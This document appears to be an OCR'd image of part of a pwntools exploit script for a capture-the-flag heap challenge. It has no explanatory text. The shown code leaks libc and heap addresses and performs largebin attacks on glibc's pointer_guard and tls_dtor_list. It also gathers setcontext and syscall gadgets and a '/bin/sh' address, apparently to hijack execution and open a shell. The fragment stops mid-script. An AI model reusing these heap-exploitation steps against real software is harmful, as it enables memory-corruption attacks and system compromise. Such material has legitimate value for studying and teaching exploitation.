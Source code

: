 ```c
#-------------------------
#---------leak------------
libc_base = u64(ru(b'\x7f')[-6:].ljust(0x8,b'\x00')) - main_arena - 96
su('libc_base',libc_base)
pointer_guard_addr = libc_base - 0x2890
tls_dtor_list_addr = libc_base - 0x2918
su('pointer_guard_addr',pointer_guard_addr)
su('tls_dtor_list_addr',tls_dtor_list_addr)
set_context = libc_base + libc.sym['setcontext'] + 61
fh = libc.sym['__free_hook']+libc_base
#0x000000000005dfd1 : mov rax, rdi ; ret 
#0x0000000000169e90 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
binsh_addr = libc_base + next(libc.search(b'/bin/sh\0'))
ret = libc_base + libc.sym['setcontext'] + 334
syscall = next(libc.search(asm("syscall\nret")))+libc_base
#---------------------------------------
#------largebin attack and leak heap----
pay = free(3,0)
pay += edit(1,0x20,p64(0)*3+p64(pointer_guard_addr-0x20),0)
pay += add(5,0x500,0)#5
pay += show(1,0)
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
ru('Malloc Done\n')
heap = u64(r(6).ljust(8,b'\0')) - 0x2f50
su('heap',heap)
pay = edit(1,0x20,p64(heap+0x2f50)+p64(libc_base+main_arena+1120)+p64(heap+0x2f50)+p64(heap+0x2f50),0)
pay += edit(3,0x20,p64(libc_base+main_arena+1120)+p64(heap+0x26c0)+p64(heap+0x26c0)+p64(heap+0x26c0),0)
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
#---------------------------------------
add(1,0x460)#1
add(3,0x440)#3
#------largebin attack ------------------
free(1)
pay = free(3,0)
pay += edit(1,0x20,p64(0)*3+p64(tls_dtor_list_addr-0x20),0)
pay += add(5,0x500,0)#5
pay += show(1,0)
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
ru('Malloc Done\n')
heap = u64(r(6).ljust(8,b'\0')) - 0x2f50
su('heap',heap)
pay = edit(1,0x20,p64(heap+0x2f50)+p64(libc_base+main_arena+1120)+p64(heap+0x2f50)+p64(heap+0x2f50),0)
pay += edit(3,0x20,p64(libc_base+main_arena+1120)+p64(heap+0x26c0)+p64(heap+0x26c0)+p64(heap+0x26c0),0)
pay += b'\x05'
ru("Pls input the opcode\n")
s(pay)
#---------------------------------------
#0x0000000000169e90 : mov rdx, qword ptr [rdi + 8] ; mov qword ptr [rsp], rax ; call qword ptr [rdx + 0x20]
#--------------------------------------
pay = add(1,0x460,0)#1
pay+=free(2,0)#0
```